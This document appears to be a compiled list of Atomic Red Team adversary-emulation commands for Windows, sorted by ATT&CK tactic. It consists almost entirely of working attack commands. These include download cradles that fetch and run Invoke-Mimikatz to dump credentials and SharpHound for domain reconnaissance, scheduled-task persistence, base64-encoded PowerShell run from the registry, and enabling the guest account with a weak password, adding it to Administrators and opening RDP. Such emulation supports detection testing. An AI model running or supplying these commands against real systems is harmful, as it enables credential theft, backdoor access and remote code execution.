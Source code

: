 Initial Access
*
powershell -Command "$url='https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1566.001/bin/PhishingAttachment.xlsm'; [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm"

*
powershell -Command "$RemovableDrives=@(); $RemovableDrives = Get-WmiObject -Class Win32_LogicalDisk -filter 'drivetype=2' | select-object -expandproperty DeviceID; ForEach ($Drive in $RemovableDrives) { write-host 'Removable Drive Found:' $Drive; New-Item -Path $Drive\T1091Test1.txt -ItemType 'file' -Force -Value 'T1091 Test 1 has created this file to simulate malware spread to removable drives.' }"
Pre-req: powershell -Command "Out-File -FilePath '$env:TEMP\ExplorerSync.db'"

*
copy "%temp%\ExplorerSync.db" "%temp%\..\Microsoft\ExplorerSync.db"
schtasks /create /tn ExplorerSync /tr "javaw -jar %temp%\..\Microsoft\ExplorerSync.db" /sc ONLOGON /f

*
net user guest /active:yes
net user guest  Password123
net localgroup Administrators guest  /add
net localgroup "Remote Desktop Users" guest  /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f


Execution
*
schtasks /create /tn "T1053_005_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe" 
schtasks /create /tn "T1053_005_OnStartup" /sc onstart /ru system /tr "cmd.exe /c calc.exe"

*
Scheduled task Local:
SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 10:40

*
Task Scheduler via VBA:
powershell -Command "Write-Host 'You will need to install Microsoft Word manually to meet this requirement'"

*
Scheduled Task Executing Base64 Encoded Commands From Registry:
reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyAxMjcuMC4wLjE= /f
schtasks.exe /Create /F /TN "ATOMIC-T1053.005" /TR "cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\SOFTWARE\\ATOMIC-T1053.005).test)))" /sc daily /st 10:58


*
PowerShell Modify A Scheduled Task:
powershell -Command "$Action = New-ScheduledTaskAction -Execute 'cmd.exe'; $Trigger = New-ScheduledTaskTrigger -AtLogon; $User = New-ScheduledTaskPrincipal -GroupId 'BUILTIN\Administrators' -RunLevel Highest; $Set = New-ScheduledTaskSettingsSet; $object = New-ScheduledTask -Action $Action -Principal $User -Trigger $Trigger -Settings $Set; Register-ScheduledTask AtomicTaskModifed -InputObject $object; $NewAction = New-ScheduledTaskAction -Execute 'Notepad.exe'; Set-ScheduledTask 'AtomicTaskModifed' -Action $NewAction"

*
WMI Reconnaissance Users:
wmic useraccount get /ALL /format:csv

*
WMI Reconnaissance Processes:
wmic process get caption,executablepath,commandline /format:csv

*
WMI Reconnaissance Software:
wmic qfe get description,installedOn /format:csv

*
WMI Reconnaissance List Remote Services
wmic /node:"127.0.0.1" service where (caption like "%Spooler%")

*
WMI Execute Local Process
wmic process call create notepad.exe




*
Create a Process using WMI Query and an Encoded Command
powershell -exec bypass -e SQBuAHYAbwBrAGUALQBXAG0AaQBNAGUAdABoAG8AZAAgAC0AUABhAHQAaAAgAHcAaQBuADMAMgBfAHAAcgBvAGMAZQBzAHMAIAAtAE4AYQBtAGUAIABjAHIAZQBhAHQAZQAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIABuAG8AdABlAHAAYQBkAC4AZQB4AGUA


*
echo var url = "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt", fso = WScript.CreateObject('Scripting.FileSystemObject'), request, stream; request = WScript.CreateObject('MSXML2.ServerXMLHTTP'); request.open('GET', url, false); request.send(); if (request.status === 200) {stream = WScript.CreateObject('ADODB.Stream'); stream.Open(); stream.Type = 1; stream.Write(request.responseBody); stream.Position = 0; stream.SaveToFile(filename, 1); stream.Close();} else {WScript.Quit(1);}WScript.Quit(0); > %TEMP%\OSTapGet.js
cscript //E:Jscript %TEMP%\OSTapGet.js

*
@echo off
powershell -Command "New-Item -Type Directory (split-path \"%source_file%\") -ErrorAction ignore | Out-Null; Invoke-WebRequest 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1106/src/CreateProcess.cs' -OutFile '%source_file%'"

*
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystem.ps1')

*
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"


*Run Bloodhound from Memory using Download Cradle

powershell -Command "Write-Host 'Remote download of SharpHound.ps1 into memory, followed by execution of the script' -ForegroundColor Cyan; IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1'); Invoke-BloodHound -OutputDirectory $env:Temp; Start-Sleep 5"




